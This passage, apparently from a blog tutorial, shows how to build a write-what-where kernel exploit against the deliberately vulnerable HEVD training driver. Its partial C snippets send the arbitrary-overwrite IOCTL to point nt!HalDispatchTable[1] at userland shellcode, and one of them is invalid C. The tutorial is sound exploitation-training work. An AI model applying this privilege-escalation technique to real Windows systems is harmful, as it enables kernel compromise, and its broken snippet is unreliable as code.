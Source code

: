 ![Windows 8.1 HAL section](/assets/images/win-kernel-debug/hevd-www-hal-interrupt.png)

__Note__: Looking for references about HAL interrupt table corruption, I came across this recent and fantastic
[blog post](https://labs.bluefrostsecurity.de/blog/2017/05/11/windows-10-hals-heap-extinction-of-the-halpinterruptcontroller-table-exploitation-technique/) by [@NicoEconomou](https://twitter.com/NicoEconomou){:target="_blank" class="fa fa-twitter"} that covers exactly this approach. I might dedicate a future post applying this technique to HEVD as this table is also an excellent target for WWW scenario.


# Building the exploit

__Note__: Some convenience functions of this exploit are located in
the [`KePwnLib.h`](https://github.com/hugsy/hevd/blob/feb6d67ca5f5f3c0718042b42e22adbeee6aee62/KePwnLib.h) library I wrote. Feel free to use it!

The very first part of the exploit is very similar to what we did in the former post, with the new IOCTL code:

```c
// Get the device handle
#define IOCTL_HEVD_ARBITRARY_OVERWRITE 0x22200b

HANDLE hDevice = CreateFileA("\\\\.\\HackSysExtremeVulnerableDriver", ...);

// Also prepare our shellcode in userland
ULONG_PTR lpShellcode = AllocatePageWithShellcode();
```

And when sending the IOCTL, pass in a buffer of 2 ULONG_PTR (index 0 is the
*What*, 1 is the *Where*).

```c
// Overwrite the 1st DWORD pointed by WHERE
ULONG_PTR lpBufferIn[2] = {WHAT, WHERE};
DeviceIoControl(hDevice, IOCTL_HEVD_ARBITRARY_OVERWRITE, lpBufferIn, sizeof(lpBufferIn), ...);

// Overwrite the 2nd DWORD pointed by WHERE
lpBufferIn[2] = {WHAT+4, WHERE+4};
DeviceIoControl(hDevice, IOCTL_HEVD_ARBITRARY_OVERWRITE, lpBufferIn, sizeof(lpBufferIn), ...);
```

And if we test with dummy values:
![exploit-test](/assets/images/win-kernel-debug/hevd-www-testing-exploit.png)

The `WHAT` corresponds to our shellcode (`lpShellcode`), which we know. Now we need the
`WHERE` (i.e. `nt!HalDispatchTable[1]`)... which a kernel address! As we know, any
mapped address can be translated to `MmappedAddress = ImageBase + offset`.

## Get the Kernel Image Base Address from undocumented SystemInformationClass
